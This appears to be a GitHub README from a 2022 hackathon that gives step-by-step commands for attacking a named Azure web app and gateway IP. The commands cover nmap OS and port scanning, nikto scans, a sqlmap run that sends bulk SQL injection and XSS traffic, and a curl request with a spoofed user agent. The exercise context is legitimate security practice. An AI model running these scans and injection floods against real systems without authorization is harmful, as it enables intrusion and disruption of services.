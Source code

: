 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

## Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery
```
    Nmap -v -O -Pn 52.249.241.69 --traceroute 
    #silent scan of IP and 1000 ports if ICMP is blocked 
```
```
    nikto -h 52.249.241.69 
    //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
    //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl
```
## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 
```
    sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 
```
![image](https://user-images.githubusercontent.com/97529152/161347761-6c4a72d3-8c94-4d97-8c78-761c182a9f74.png)

**NOTE:**  
This will NOT be successful but will send a lot of SQL injection and XSS traffic to the WebApp. This will identity that there are NO DBs behind the WebApp.

- Grab header and spoof useragent 
```
curl -I -X HEAD -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" http://52.249.241.69
```
![image](https://user-images.githubusercontent.com/97529152/161603891-81c59240-c355-4629-8799-1c42c6a3eb7d.png)

